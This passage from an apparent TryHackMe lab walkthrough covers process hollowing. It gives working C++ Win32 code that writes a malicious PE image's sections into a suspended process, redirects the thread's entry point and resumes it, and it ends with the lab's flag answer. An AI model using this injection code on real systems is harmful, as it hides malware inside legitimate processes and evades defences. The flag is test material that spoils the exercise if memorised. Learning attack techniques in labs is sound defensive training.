 Now we need to write each section. To find the number of sections, we can use  NumberOfSections from the NT headers. We can loop through e_lfanew and the size of the current header to write each section.

```
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```
It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use SetThreadContext to change EAX to point to the entry point.

```
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);

```
At step six, we need to take the process out of a suspended state using ResumeThread.

```
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);

```

We can compile these steps together to create a process hollowing injector. Use the C++ injector provided and experiment with process hollowing.


Identify a PID of a process running as THM-Attacker to target. Supply the PID and executable name as arguments to execute hollowing-injector.exe located in the injectors directory on the desktop. 


![[Pasted image 20220912170806.png]]
What flag is obtained after hollowing and injecting the shellcode?
*THM{7h3r35_n07h1n6_h3r3}*
